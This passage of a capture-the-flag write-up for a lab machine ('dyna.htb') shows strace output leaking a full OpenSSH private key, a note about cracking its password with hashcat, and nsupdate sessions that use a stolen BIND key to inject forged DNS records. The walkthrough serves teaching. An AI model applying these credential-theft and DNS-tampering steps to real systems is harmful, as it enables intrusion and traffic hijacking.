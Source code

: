 ```bash
# 15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823
# 15123 write(2, "SSH public key authentication failed: Callback returned error\n", 62) = 62
```

Still this key requires a password... May-be the bind keys found earlier have
the same password as this ssh key, so I launched hashcat in the background.

While we're at it, let's try and use this key:

```bash
nsupdate -k /etc/bind/infra.key
```

```
> server 127.0.0.1
> zone dyna.htb
> update add apehex.infra.dyna.htb 86400 A 1.2.3.4
> show
Outgoing update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:      0
;; flags:; ZONE: 0, PREREQ: 0, UPDATE: 0, ADDITIONAL: 0
;; ZONE SECTION:
;dyna.htb.          IN  SOA

;; UPDATE SECTION:
apehex.infra.dyna.htb.  86400   IN  A   1.2.3.4

> send
```

```
> zone 10.in-addr.arpa
> update add 4.3.2.1.in-addr.arpa 300 PTR apehex.infra.dyna.htb
> show
Outgoing update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:      0
;; flags:; ZONE: 0, PREREQ: 0, UPDATE: 0, ADDITIONAL: 0
;; ZONE SECTION:
;10.in-addr.arpa.       IN  SOA

;; UPDATE SECTION:
4.3.2.1.in-addr.arpa. 300   IN  PTR apehex.infra.dyna.htb.

> send
```
